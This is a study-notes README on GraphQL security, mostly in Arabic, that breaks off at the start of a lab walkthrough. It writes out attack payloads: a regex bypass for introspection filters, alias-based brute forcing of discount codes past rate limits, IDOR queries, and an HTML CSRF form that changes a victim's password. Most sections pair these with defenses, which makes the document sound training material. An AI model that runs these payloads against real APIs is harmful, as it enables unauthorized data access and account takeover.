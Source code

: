 # GraphQL 

<details>
  <summary>what is GraphQL?</summary>


- <details>
      <summary>what is GraphQL & How it work?</summary>

  ## 🧠 ما هو GraphQL؟
  
  **GraphQL** هو لغة استعلام API (بديلة عن REST) تسمح للعملاء بطلب البيانات التي يحتاجونها فقط، مما:
  - يقلل من حجم الاستجابات.
  - يمنع تعدد الطلبات للحصول على بيانات من أكثر من مصدر.
  
  ---
  
  ## ⚙️ كيف يعمل GraphQL؟
  
  - يعتمد على **Schema** يحدد أنواع البيانات والعلاقات بينها.
  - يستخدم **نقطة نهاية واحدة فقط** (عادة POST).
  - جميع العمليات (queries/mutations/subscriptions) تُرسل إلى نفس الـ endpoint.
  
  ---
  
  ## 🔧 أنواع العمليات في GraphQL:
  
  | النوع         | الوظيفة                                       |
  |---------------|-----------------------------------------------|
  | **Query**     | لجلب البيانات                                  |
  | **Mutation**  | لإضافة أو تعديل أو حذف البيانات                |
  | **Subscription** | لإنشاء اتصال دائم لتحديث البيانات تلقائيًا  |
  
  ---
  
  ## 🟢 مميزات GraphQL:
  
  - عميل التطبيق يحدد **ما هي البيانات المطلوبة بالضبط**.
  - لا حاجة لمعرفة مكان البيانات أو كيفية تجميعها.
  - متوافق مع مختلف لغات البرمجة وقواعد البيانات.
  - الاستجابة تأتي بشكل **JSON منظم حسب الطلب**.
  
  ---
  
  ## 🔁 الفرق عن REST:
  
  | REST                      | GraphQL                                   |
  |---------------------------|--------------------------------------------|
  | عدة endpoints             | endpoint واحد فقط                         |
  | HTTP methods (GET, POST…) | POST فقط غالبًا                           |
  | استجابة كاملة              | استجابة مخصصة حسب الطلب فقط              |
  
  


  </details>









- <details>
      <summary>What is a GraphQL schema?</summary>
  
  
  
  ## 📘 ما هو GraphQL Schema؟
  
  **GraphQL Schema** هو العقد (Contract) بين الـ **Frontend** والـ **Backend** يوضح:
  - ما هي البيانات المتاحة.
  - ما هي أنواعها.
  - كيف يمكن استدعاؤها.
  
  ✅ يُكتب باستخدام **لغة تعريف بسيطة ومقروءة (SDL)**.
  
  ---
  
  ## 🧱 ما الذي يحتويه الـ Schema؟
  
  - **أنواع البيانات (Types)**: مثل `Product`, `User`, `Order`...
  - **الحقول (Fields)**: تمثل خصائص الكائنات (مثل name، id...).
  - **الأنواع الأساسية**: مثل `String`, `Int`, `Boolean`, `ID`
  - يمكن أن تكون الحقول:
    - **Object Type** (نوع مركب)
    - **Scalar Type** (نوع بسيط)
    - **Enum / Union / Interface / Custom Types**
  
  🔒 `!` يعني أن الحقل **إجباري (Non-nullable)**
  
  ---
  
  ## ✏️ مثال على تعريف Schema بسيط:
  
  ```graphql
  type Product {
    id: ID!
    name: String!
    description: String!
    price: Int
  }
  ```
  
  #### 📌 هذا يعرف نوع اسمه Product يحتوي على:
  
  - ``id``: معرف فريد (إجباري)
  
  - ``name``: اسم المنتج (إجباري)
  
  - ``description``: وصف (إجباري)
  
  - ``price``: السعر (اختياري)
  
  
  ## 🔍 مكونات إضافية في الـ Schema:
  
  يجب أن يحتوي على Query واحدة على الأقل (لجلب البيانات)
  
  عادةً يحتوي أيضًا على Mutations (لإضافة/تعديل/حذف بيانات)
  
  
  ## 💡 ملخص سريع:
  
  | العنصر           | الوصف                                   |
  | ---------------- | --------------------------------------- |
  | Schema           | يحدد شكل البيانات وكيف يتم الوصول إليها |
  | Types            | الكائنات التي يمكن استرجاعها أو تعديلها |
  | Fields           | خصائص كل كائن (الاسم، السعر، إلخ)       |
  | Non-nullable (!) | حقل إجباري لا يمكن أن يكون فارغًا       |
  
  



  </details>








- <details>
     <summary>What are GraphQL queries?</summary>
  
  
  ## 🔍 ما هي GraphQL Queries؟
  
  **GraphQL Queries** تُستخدم لاسترجاع البيانات من قاعدة البيانات أو مصدر البيانات.
  
  ✅ تشبه طلبات **GET** في REST APIs، لكنها:
  - أكثر مرونة
  - تُعيد فقط البيانات التي تطلبها
  
  ---
  
  ## 🧱 مكونات الاستعلام (Query):
  
  | العنصر                 | الوصف                                               |
  |-------------------------|------------------------------------------------------|
  | **نوع العملية (query)** | لتوضيح أن الطلب هو استعلام (اختياري لكن مفضل)       |
  | **اسم الاستعلام**       | لتسهيل التتبع والتصحيح (اختياري لكنه مفضل)          |
  | **الهيكلية المطلوبة**   | تحدد الحقول التي تريد استرجاعها                     |
  | **المعاملات (arguments)** | لتحديد عناصر معينة بناءً على شرط (مثل ID)            |
  
  ---
  
  ## ✏️ مثال على Query:
  
  ```graphql
  query myGetProductQuery {
    getProduct(id: 123) {
      name
      description
    }
  }
  ```
  
  
  ### 📌 هذا الاستعلام يطلب من الخادم:
  
  المنتج الذي معرفه ``123``
  
  ويطلب فقط الاسم والوصف
  
   > 💡 ملاحظة: حتى لو كان نوع Product يحتوي على حقول أكثر، فأنت تتحكم في ما يتم استرجاعه فقط.
  
  
  
  
  ## 📚 ملخص سريع:
  
  
  
  | المفهوم      | القيمة                                          |
  | ------------ | ----------------------------------------------- |
  | الاستعلام    | طلب بيانات من الخادم                            |
  | يشبه في REST | طلب `GET`                                       |
  | المرونة      | تطلب الحقول التي تحتاجها فقط                    |
  | المعاملات    | تُستخدم لتحديد بيانات معينة مثل `id`, `name`... |
  
  


  </details>







- <details>
     <summary>What are GraphQL mutations?</summary>
  
  
  ## 🔧 ما هي GraphQL Mutations؟
  
  **Mutations** تُستخدم لتعديل البيانات، وتشمل:
  - الإضافة (Create)
  - التعديل (Update)
  - الحذف (Delete)
  
  🟩 تقابل في REST:
  - `POST` / `PUT` / `DELETE`
  
  ---
  
  ## 🧱 مكونات الـ Mutation:
  
  | العنصر                   | الوصف                                                         |
  |---------------------------|----------------------------------------------------------------|
  | **نوع العملية (mutation)**| يُحدد أن العملية هي تعديل بيانات                              |
  | **اسم العملية**           | (اختياري لكنه مفيد) لتسهيل التتبع                             |
  | **المدخلات (Inputs)**     | يجب تمرير بيانات (قيم) لإجراء التعديل                         |
  | **الاستجابة**             | تحدد الحقول التي تريد إرجاعها بعد التعديل                     |
  
  ---
  
  ## ✏️ مثال على Mutation:
  
  ```graphql
  mutation {
    createProduct(name: "Flamin' Cocktail Glasses", listed: "yes") {
      id
      name
      listed
    }
  }
  ```
  
  
  ### 📌 هذا يقوم بـ:
  
  - إنشاء منتج جديد
  
  - يطلب من الخادم إرجاع id, name, و listed في الاستجابة
  
  
  
  
  ---
  
  ## 📥 مثال على الاستجابة:
  
  ```json
  {
    "data": {
      "createProduct": {
        "id": 123,
        "name": "Flamin' Cocktail Glasses",
        "listed": "yes"
      }
    }
  }
  ```
  
  
  
  ## 📚 ملخص سريع:
  
  | المفهوم      | القيمة                                       |
  | ------------ | -------------------------------------------- |
  | الغرض        | تعديل البيانات (إضافة، تعديل، حذف)           |
  | يشبه في REST | POST / PUT / DELETE                          |
  | يجب أن يحتوي | مدخلات (inputs)                              |
  | الاستجابة    | تحدد الحقول المراد إرجاعها بعد تنفيذ العملية |
  
  
  
  
  
  

     
  </details>













- <details>
     <summary>Components of queries and mutations</summary>

  
  
  # 📌 Components of GraphQL Queries and Mutations
  
  GraphQL يتكوّن من عناصر أساسية تُستخدم لجلب البيانات (queries) أو تعديلها (mutations).
  
  ---
  
  ## 🔸 Fields (الحقول)
  
  - كل نوع (Type) يحتوي على **Fields** يمكن استدعاؤها.
  - يمكنك تحديد فقط الحقول المطلوبة في الطلب.
  - الاستجابة تعكس ما طلبته بالضبط.
  
  ### ✅ مثال:
  
  ```graphql
  query myGetEmployeeQuery {
    getEmployees {
      id
      name {
        firstname
        lastname
      }
    }
  }
  ```

  ## Response

  ```json
      #Response
  
      {
          "data": {
              "getEmployees": [
                  {
                      "id": 1,
                      "name" {
                          "firstname": "Carlos",
                          "lastname": "Montoya"
                      }
                  },
                  {
                      "id": 2,
                      "name" {
                          "firstname": "Peter",
                          "lastname": "Wiener"
                      }
                  }
              ]
          }
      }
  ```

  ---
  
  ## 🔸 Arguments (المعاملات)
  
  - تُستخدم لتمرير قيم إلى الاستعلام.
  - تُحدَّد في الـ Schema.
  - تُساعد على جلب بيانات محددة.
  
  ### ✅ مثال:
  
  ```graphql
  query myGetEmployeeQuery {
    getEmployees(id: 1) {
      name {
        firstname
        lastname
      }
    }
  }
  ```

  ## response
  
  ```json
   #Response to query
  
      {
          "data": {
              "getEmployees": [
              {
                  "name" {
                      "firstname": Carlos,
                      "lastname": Montoya
                      }
                  }
              ]
          }
      }
  ```






  
  📌 **تنبيه:** يمكن أن تكون عرضة لهجمات مثل **IDOR** إذا لم يتم تأمين الوصول جيدًا.
  
  ---
  
  ## 🔸 Variables (المتغيرات)
  
  - تُستخدم لتمرير قيم ديناميكية بدلاً من وضعها مباشرة في الاستعلام.
  - تفصل بين **هيكل الاستعلام** و**قيم البيانات**.
  
  ### ✅ مثال:
  
  ```graphql
 
    #Example query with variable

    query getEmployeeWithVariable($id: ID!) {
        getEmployees(id:$id) {
            name {
                firstname
                lastname
            }
         }
    }

    Variables:
    {
        "id": 1
    }
  ```
  
 
  
  ---
  
  ## 🔸 Aliases (الأسماء البديلة)
  
  - تسمح بطلب نفس النوع أكثر من مرة في نفس الاستعلام.
  - تتجاوز القيود بأن يكون لكل خاصية اسم فريد.
  
  ### ❌ استعلام غير صحيح:
  
  ```graphql
 
    #Invalid query

    query getProductDetails {
        getProduct(id: 1) {
            id
            name
        }
        getProduct(id: 2) {
            id
            name
        }
    }
  ```
  
  ### ✅ استعلام صحيح باستخدام Aliases:
  
  ```graphql
  query getProductDetails {
    product1: getProduct(id: "1") {
      id
      name
    }
    product2: getProduct(id: "2") {
      id
      name
    }
  }
  ```

  ## response

  ```json

    #Response to query

    {
        "data": {
            "product1": {
                "id": 1,
                "name": "Juice Extractor"
             },
            "product2": {
                "id": 2,
                "name": "Fruit Overlays"
            }
        }
    }
  ```
  
  ---
  
  ## 🔸 Fragments (الأجزاء القابلة لإعادة الاستخدام)
  
  - تُستخدم لتعريف مجموعة من الحقول مرة واحدة.
  - تُساعد في تقليل التكرار وإعادة استخدام نفس البنية في عدة أماكن.
  
  ### ✅ مثال:
  
  ```graphql
  fragment productInfo on Product {
    id
    name
    listed
  }
  
 
  ```

  ## query calling fragment
  
  ```graphql
   #Query calling the fragment
  
      query {
          getProduct(id: 1) {
              ...productInfo
              stock
          }
      }
  ```
  
  ## response 
  
  ```json
     #Response including fragment fields
  
      {
          "data": {
              "getProduct": {
                  "id": 1,
                  "name": "Juice Extractor",
                  "listed": "no",
                  "stock": 5
              }
          }
      }
  ```


 
  ---
  
  ## 📚 ملخص سريع:
  
  | المكون       | الوظيفة الرئيسية                                                              |
  |--------------|--------------------------------------------------------------------------------|
  | Fields        | تحديد ما يجب استرجاعه من بيانات                                                |
  | Arguments     | تمرير قيم لتحديد أو تخصيص البيانات المطلوبة                                    |
  | Variables     | فصل القيم عن الاستعلام لسهولة التكرار والتعديل                                 |
  | Aliases       | إرسال نفس الطلب لنوع معين أكثر من مرة باستخدام أسماء بديلة                    |
  | Fragments     | تعريف أجزاء قابلة لإعادة الاستخدام في استعلامات أو Mutations متعددة           |
  
  





  </details>




- <details>
     <summary>Subscriptions & Introspection</summary>


  # 🔄 GraphQL Subscriptions & Introspection
  
  ## 🔸 Subscriptions
  
  **Subscriptions** هي نوع خاص من الاستعلامات (queries)، لكن الفرق الرئيسي هو أنها:
  - تُنشئ **اتصال دائم** بين العميل (Client) والخادم (Server)
  - تُستخدم لتلقي **تحديثات لحظية (Real-time)** من السيرفر دون الحاجة للاستعلام بشكل مستمر
  
  ### ✅ الفائدة الأساسية:
  - مناسبة للتحديثات السريعة والصغيرة مثل:
    - تطبيقات الدردشة (Chat apps)
    - تحرير المحتوى التعاوني (مثل Google Docs)
    - الإشعارات المباشرة
  
  ### ⚙️ طريقة العمل:
  - غالبًا يتم تنفيذها باستخدام **WebSockets**
  - تُحدد شكل البيانات المطلوبة مثل الاستعلامات العادية
  
  ---
  
  ## 🔍 Introspection
  
  **Introspection** هي ميزة مدمجة في GraphQL تسمح لك بـ:
  - الاستعلام عن معلومات حول **الـ Schema** نفسها
  - معرفة أنواع البيانات، الحقول، الاستعلامات المتاحة، الـ mutations، وغيرها
  
  ### ✅ تُستخدم في:
  - أدوات مثل **GraphQL Playground** أو **GraphiQL**
  - توليد التوثيق (Documentation)
  
  ### ⚠️ مخاطر أمنية:
  - يمكن أن تكشف **معلومات حساسة** عن الـ API
  - يمكن أن تساعد المخترق في معرفة كيفية التفاعل مع الـ API
  - 🔒 **يُنصح بإيقافها في بيئات الإنتاج (Production)**
  
  ---
  
  ## 📚 ملخص سريع:
  
  | العنصر         | الوصف                                                                 |
  |----------------|------------------------------------------------------------------------|
  | Subscriptions  | اتصال دائم من السيرفر للعميل لتحديث البيانات لحظيًا                     |
  | Introspection  | استعلام عن هيكل الـ GraphQL نفسه (Schema)                              |
  | تستخدم في      | الدردشة، التحديثات اللحظية، توثيق GraphQL                               |
  | المخاطر        | Introspection قد تكشف تفاصيل داخلية حساسة - يجب تعطيلها في الإنتاج     |
  """
  

  </details>





  
</details>





<details>
  <summary>Finding GraphQL endpoints</summary>



# 🔍 Discovering & Testing GraphQL Endpoints

قبل اختبار أي GraphQL API، لازم تلاقي أولًا **الـ endpoint** الخاص بيها. كل طلبات GraphQL تروح لنفس الـ endpoint، فمعرفته مهمة جدًا.

---

## 🧪 Universal Query

### ما هو؟
استعلام بسيط لاختبار إذا كان عنوان URL يحتوي على GraphQL endpoint.

### ✅ مثال:
```graphql
query { __typename }
```

### 📥 الاستجابة المتوقعة:
```json
{
  "data": {
    "__typename": "query"
  }
}
```

🔎 هذا يساعدك تتأكد إنك بتتعامل مع GraphQL.

---

## 📍 Common GraphQL Endpoints

جرب ترسل universal query لهذه المسارات:

- `/graphql`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`
- (أحيانًا) أضف `/v1` في النهاية مثل: `/api/graphql/v1`

---

## 📬 طرق إرسال الطلبات (Request Methods)

| الطريقة       | الحالة                                      |
|---------------|----------------------------------------------|
| `POST` + `application/json` | ✅ الأفضل والأكثر أمانًا                  |
| `GET` أو `POST` + `x-www-form-urlencoded` | 🚫 ممكن تكون متاحة في بعض التطبيقات |

🔒 من الأفضل أن تقبل فقط POST + JSON لتفادي **CSRF**.

---

## 🧭 كيفية التأكد من الـ Endpoint

- جرب كل المسارات المعروفة باستخدام universal query.
- لو رجع استجابة بـ "query not present" أو شبيه، ده غالبًا GraphQL.
- غير طرق الطلب وشوف الاستجابة.

---

## 🧰 أدوات مساعدة

- **Burp Scanner**: بيقدر يكتشف GraphQL endpoints تلقائيًا.
  - يظهر إشعار "GraphQL endpoint found" لو تم اكتشافه.

- **Burp Proxy**:
  - استخدم المتصفح المدمج في Burp.
  - راقب HTTP History وشوف الطلبات اللي بيتم إرسالها.
  - كده تقدر تشوف استعلامات GraphQL الحقيقية في التطبيق.

---

## 📚 ملخص سريع:

| العنصر               | التوضيح                                                        |
|------------------------|----------------------------------------------------------------|
| Universal Query        | استعلام بسيط للتأكد من وجود GraphQL                          |
| Common Endpoints       | مسارات متكررة غالبًا تستخدمها الخدمات                        |
| طرق HTTP               | جرب POST + JSON أولًا، ثم طرق أخرى لو فشلت                    |
| أدوات الكشف           | Burp Suite مفيد جدًا في تحليل واستكشاف واجهات GraphQL         |


  
</details>










<details>
  <summary>Exploiting unsanitized arguments</summary>


  
  # ⚠️ Exploiting Unsanitized Arguments in GraphQL
  
  في مرحلة اختبار الأمان، من الجيد البدء باختبار **المعاملات (arguments)** داخل الاستعلامات. بعض التطبيقات تكون معرضة لثغرات **الوصول غير المصرح به** أو ما يُعرف بـ **IDOR**.
  
  ---
  
  ## ❗ ما هي ثغرة IDOR في GraphQL؟
  
  - تحدث عندما يُسمح للمستخدم بطلب كائن باستخدام معرف (ID) دون التأكد من صلاحياته.
  - المستخدم قد يصل إلى بيانات لا يملك إذنًا لرؤيتها فقط عن طريق تغيير قيمة الـ ID.
  
  ---
  
  ## 🎯 مثال عملي:
  
  ### 🔹 استعلام يعرض المنتجات المتاحة فقط:
  
  ```graphql
  query {
    products {
      id
      name
      listed
    }
  }
  ```
  
  ### 🔹 استجابة توضح المنتجات المتاحة فقط:
  
  ```json
  {
    "data": {
      "products": [
        { "id": 1, "name": "Product 1", "listed": true },
        { "id": 2, "name": "Product 2", "listed": true },
        { "id": 4, "name": "Product 4", "listed": true }
      ]
    }
  }
  ```
  
  📌 الملاحظة:
  - المنتج ذو ID رقم 3 غير ظاهر. من المحتمل أنه **غير مُدرج** أو محجوب.
  
  ---
  
  ## 🕵️‍♂️ محاولة الوصول للمنتج الغير ظاهر:
  
  ```graphql
  query {
    product(id: 3) {
      id
      name
      listed
    }
  }
  ```
  
  ### 🧨 استجابة غير متوقعة:
  
  ```json
  {
    "data": {
      "product": {
        "id": 3,
        "name": "Product 3",
        "listed": false
      }
    }
  }
  ```
  
  ✅ يعني أنه لا يوجد تحقق من صلاحيات المستخدم، وقدرنا نوصل لمنتج **غير ظاهر للعامة**.
  
  ---
  
  ## 🚨 الملخص:
  
  | العنصر              | التوضيح                                                  |
  |---------------------|-----------------------------------------------------------|
  | نوع الهجوم         | Insecure Direct Object Reference (IDOR)                   |
  | السبب              | عدم وجود تحقق من صلاحيات المستخدم عند استخدام المعاملات   |
  | النتيجة المحتملة   | الوصول إلى بيانات حساسة أو غير معلنة                      |
  | الطريقة            | تغيير قيمة الـ ID أو معلمة في الاستعلام يدويًا            |
  
  ---
  
  ## 🔐 التوصية للمطورين:
  
  - تأكد دائمًا من صلاحيات المستخدم قبل جلب الكائنات الحساسة.
  - لا تعتمد فقط على أن الاستعلام لا يُرجع البيانات في بعض الحالات.
  - راجع التحكم بالوصول (Access Control) بدقة.
  
  
  
    
</details>






<details>
  <summary>Discovering schema information</summary>




# 🧠 Discovering Schema Information in GraphQL

الخطوة التالية بعد الوصول لنقطة النهاية (endpoint) في GraphQL هي **اكتشاف معلومات المخطط (schema)** لفهم كيفية التفاعل مع الـ API.

---

## 🔍 ما هي Introspection؟

- Introspection هي ميزة مدمجة في GraphQL تتيح لك الاستعلام عن معلومات حول المخطط (schema).
- تُستخدم لفهم أنواع البيانات المتاحة، والاستعلامات (queries)، والتحويلات (mutations)، والاشتراكات (subscriptions)، وحتى الأوصاف الخاصة بها.

---

## ✨ فائدة Introspection

| الفائدة                         | التوضيح |
|--------------------------------|---------|
| فهم البنية الكاملة للـ API     | تعرف ما هي الأنواع والاستعلامات والحقول المتوفرة |
| كشف معلومات حساسة محتملة      | مثل الأوصاف أو الأسماء الداخلية التي لم تُنشر للعامة |
| تستخدمها أدوات التوثيق IDEs   | مثل GraphQL Playground و Postman و Burp Scanner |

---

## 🚀 استخدام introspection

### ✅ استعلام بسيط للتأكد من تفعيل introspection:

```json
{
  "query": "{__schema{queryType{name}}}"
}
```

📌 إذا استرجعت أسماء الاستعلامات، فإن introspection مفعلة.

---

## 📜 استعلام Introspection كامل

إذا أردت استخراج كل تفاصيل المخطط:

```graphql

    #Full introspection query

    query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```

🔧 ملاحظة: احذف `onOperation`, `onFragment`, `onField` إن ظهرت لك أخطاء.

---

## 📊 أدوات لتسهيل الفهم

- **GraphQL Visualizer**: يعرض علاقات المخطط بطريقة رسومية.
- **Burp Suite**: يمكنه توليد استعلام introspection واكتشاف التوجيهات والمخطط.
- **Clairvoyance**: أداة تقوم بجمع معلومات المخطط من **الاقتراحات** حتى لو كان introspection معطل.

---

## 💬 ماذا عن الاقتراحات؟

- تستخدم بعض الخوادم مثل Apollo GraphQL ميزة **الاقتراحات الذكية**.
- عند وجود خطأ بسيط في اسم الحقل، يقترح الاسم الصحيح.
- يمكن استغلال هذه الميزة لاستخراج المخطط جزئياً.

🔍 مثال:
> There is no entry for 'productInfo'. Did you mean 'productInformation'?

🛡️ لا يمكن تعطيل الاقتراحات مباشرةً في Apollo، ولكن هناك بعض الحيل في GitHub لتعطيلها.

---

## 📌 ملاحظات أمنية

| الجانب الأمني       | التوصية |
|---------------------|---------|
| introspection       | يجب تعطيله في بيئة الإنتاج |
| الاقتراحات          | تجنب تمكينها أو قم بفحص الردود بدقة |
| Burp Scanner        | يمكنه اختبار introspection والاقتراحات تلقائيًا |





  
</details>







<details>
  <summary>Bypassing GraphQL introspection defenses</summary>


# 🔍 Bypassing GraphQL Introspection Defenses

When developers try to secure GraphQL APIs by disabling **introspection**, they often rely on naive regex filters that block any query containing `__schema`. However, these filters can be bypassed in clever ways.




---

## 🔐 What Developers Do (Wrongly)

To prevent this, developers often filter out requests containing `__schema` or `__introspection`, using regular expressions.

Example:
```regex
/__schema{/
```

This blocks simple introspection queries... **but only the exact format.**

---

## 💥 Bypass Techniques

### 1. Inject Special Characters

GraphQL **ignores whitespaces, new lines, and commas**.

But naive regex filters don’t. So, by inserting harmless characters, you bypass the filter.

#### Example: Using a Newline Character

```json
{
  "query": "query{__schema
{queryType{name}}}"
}
```

#### Why this works:

- The developer's regex blocks `__schema{`
- But `__schema
{` doesn’t match their pattern
- Yet GraphQL still parses it correctly ✅

---

### 2. Try Alternative Request Methods

Developers may only disable introspection on POST requests.

Try:

#### ▶ GET Request with URL-Encoded Introspection Query

```http
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

Decoded:
```graphql
query {
  __schema
  {
    queryType {
      name
    }
  }
}
```

#### ▶ POST Request with Form URL-Encoded Body

```http
POST /graphql
Content-Type: application/x-www-form-urlencoded

query=query{__schema{queryType{name}}}
```

---

## 🧠 Extra Tips

- Save results to your Burp Suite **Site Map** for later analysis
- Combine this with tools like **GraphQL Voyager**, **InQL**, or **GraphQLmap** to visualize the schema
- Once schema is found, try:
  - Sensitive queries (email, password, tokens)
  - Mutations that may allow actions like reset, delete, or admin escalation

---

## 🛠 Want to Automate This?

You can easily script these bypass attempts using **Python + requests** to iterate over multiple bypass formats and content-types.

Let me know if you want the script.

---

## ✅ Goal

Get access to the full GraphQL schema **even if introspection is "disabled".**
This enables a full map of the API surface for further exploitation.

---

Stay sneaky 😎

  
</details>






<details>
  <summary>Bypassing rate limiting using aliases</summary>



# 🚀 Bypassing Rate Limiting using GraphQL Aliases

## 📌 المشكلة الأساسية: Rate Limiting
- الـ **Rate Limiting** هو نظام بيحط قيود على عدد الـ **requests** اللي تقدر تبعتها للـ API خلال فترة زمنية معينة.  
  **مثال:**
  - مسموح لك تبعت **5 requests في الدقيقة**.
  - لو بعت أكتر، السيرفر هيبدأ يرد عليك برسالة زي:  
    ```
    429 Too Many Requests
    ```
- الهدف منه إنه يمنع هجمات **brute force** أو **DoS attacks**.

---

## 📌 GraphQL وموضوع الـ Aliases
- في GraphQL، العادي إنك **ماينفعش تكرر نفس الـ field مرتين** في نفس الـ query.  
  **مثال (❌ غلط):**
  ```graphql
   query {
       isValidDiscount(code: 123)
       isValidDiscount(code: 456)
   }
  ```
  هيطلع لك Error لأنك كررت `isValidDiscount`.

---

## 📌 الحل → Aliases
- **Aliases** في GraphQL بتسمح لك إنك **تدي اسم مختلف لكل field**، حتى لو نفس الـ function أو الـ resolver.  
  **مثال (✅ صح):**
  ```graphql
  query {
      discount1: isValidDiscount(code: 123) {
          valid
      }
      discount2: isValidDiscount(code: 456) {
          valid
      }
      discount3: isValidDiscount(code: 789) {
          valid
      }
  }
  ```

هنا:
- `discount1` → هي alias للـ `isValidDiscount` الأول.
- `discount2` → alias تاني.
- وهكذا...

---

## 📌 إزاي ده بيكسر Rate Limiting؟
- بعض أنظمة الـ **Rate Limiting** بتحسب **عدد الـ requests** بس، مش **عدد العمليات الداخلية في GraphQL**.
- **GraphQL Aliases** بتخليك تبعت **Request واحدة** فيها **عمليات كتير**.

### 📍 **مثال حقيقي:**
بدل ما تبعت 100 طلب بالشكل ده:
```graphql
query {
    isValidDiscount(code: 123)
}
```
تبعت طلب واحد بس كده:
```graphql
query {
    d1: isValidDiscount(code: 123) { valid }
    d2: isValidDiscount(code: 124) { valid }
    d3: isValidDiscount(code: 125) { valid }
    d4: isValidDiscount(code: 126) { valid }
    d5: isValidDiscount(code: 127) { valid }
    ...
    d100: isValidDiscount(code: 222) { valid }
}
```

🔹 **النتيجة:**
- السيرفر شايف إن ده **Request واحد** → وبالتالي مش هيوقفك بالـ rate limiter.  
- إنت فعليًا عملت **brute force** جوه الـ API من غير ما تتقيد بعدد الـ requests.

---

## 📌 سيناريو عملي (تخيل تحدي CTF):
لو عندك endpoint في GraphQL بيتأكد من كود خصم:
```graphql
query {
    isValidDiscount(code: "12345") {
        valid
    }
}
```
بدلاً من تبعت كود واحد في كل Request → تبعت 50 كود في Request واحدة:
```graphql
query {
    check1: isValidDiscount(code: "11111") { valid }
    check2: isValidDiscount(code: "22222") { valid }
    check3: isValidDiscount(code: "33333") { valid }
    check4: isValidDiscount(code: "44444") { valid }
    check5: isValidDiscount(code: "55555") { valid }
}
```

🔹 **كده لو فيه كود صحيح، هتعرفه بسرعة كبيرة من غير ما تتوقف بالـ rate limiting.**

---

## 📌 الخلاصة:
- **Aliases** في GraphQL وسيلة لتسمية نفس العملية بأسماء مختلفة.
- تقدر تستغلها علشان **تعمل brute force في طلب واحد بس**.
- ده بيكسر أنظمة rate limiting الضعيفة لأنها بتحسب عدد الـ requests مش العمليات الداخلية.





  
</details>





<details>
   <summary>GraphQL CSRF Vulnerability</summary>



# GraphQL CSRF Vulnerability


**GraphQL** هو API System بيشتغل غالبًا على `/graphql` endpoint.

- الطبيعي إن GraphQL بياخد **POST request** ومعاه **Content-Type: application/json**.
- المتصفحات **ما ينفعش** تبعت POST requests بالـ `application/json` بشكل مباشر *بدون موافقة المستخدم*.
- **لكن...** لو الـ GraphQL endpoint:
  1. **ما بيتأكدش من نوع الـ Content-Type**  
     يعني يقبل `application/x-www-form-urlencoded` أو حتى `GET request`.
  2. **ما فيش CSRF token شغال**.

  👈 في الحالة دي، المتصفح ممكن يبعث طلب بشكل طبيعي جداً زي أي فورم HTML، والمهاجم يقدر يستغل ده.

---

## 📌 مثال عملي
تخيل الـ GraphQL endpoint عندك بياخد استعلام زي ده:

```graphql
POST /graphql
Content-Type: application/json

{
  "query": "mutation { changePassword(newPassword: \"hacked\") }"
}
```

ده آمن لأن أي هكر مش هيقدر يخلي المتصفح يبعته كده بسهولة.

**لكن لو السيرفر بيقبل حاجة زي:**
```http
POST /graphql
Content-Type: application/x-www-form-urlencoded

query=mutation+{changePassword(newPassword:%22hacked%22)}
```

أو حتى GET request كده:
```
GET /graphql?query=mutation{changePassword(newPassword:"hacked")}
```

هنا أي موقع ضار يقدر يبني صفحة HTML فيها فورم بسيط كده:

```html
<form action="https://victim.com/graphql" method="POST">
  <input type="hidden" name="query" value='mutation { changePassword(newPassword: "hacked") }'>
  <input type="submit" value="Click me!">
</form>
```

أول ما الضحية يفتح الصفحة، المتصفح يبعث الطلب ومعاه **الكوكيز بتاعته** ⇒ كلمة السر تتغير بدون ما الضحية يعرف.

---

## 📌 إزاي تمنع الهجوم؟

1. **تحقق من الـ Content-Type**  
   لازم السيرفر يرفض أي طلب مش `application/json`.  
   لو جالك `x-www-form-urlencoded` أو `multipart/form-data` → رجّع `400 Bad Request`.

2. **استخدم CSRF tokens**  
   - زود كل استعلام GraphQL بحقل CSRF token لازم يكون صحيح.
   - حتى لو الهكر عمل فورم، مش هيعرف يجيب التوكن.

3. **الاعتماد على SameSite Cookies**  
   لو الكوكيز بتاعت الـ session معمولة `SameSite=Strict` أو `Lax`،  
   المتصفح مش هيبعتها مع طلب جاي من موقع خارجي.

---

## 📌 الخلاصة
- CSRF على GraphQL زي CSRF العادي، لكن بيظهر أكتر لما:
  - الـ endpoint بيقبل **GET requests** أو **form-urlencoded POST**.
  - **مفيش CSRF protection** زي التوكنز أو `SameSite`.
- الحل: **اقفل قبول أي طلب غير JSON + استخدم CSRF tokens**.


  
</details>

























































































































----
----


# **``GraphQL Labs``**



<details>
  <summary>Lab: Accessing private GraphQL posts</summary>

> ### The blog page for this lab contains a hidden blog post that has a secret password. To solve the lab, find the hidden blog post and enter the password. 


---

1. active **``burp live passive Crawl``**

<img width="400" height="168" alt="image" src="https://github.com/user-attachments/assets/1aabdb2e-2be3-419d-8f5e-5cbbf23f341b" />

**``Found``**


```http
POST /graphql/v1 HTTP/2
Host: 0a840000031c9eaf83cdf5c7001700fe.web-security-academy.net
Cookie: session=6rY0h8IeXuTOu3Viib6k5KsJYOZNxku1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
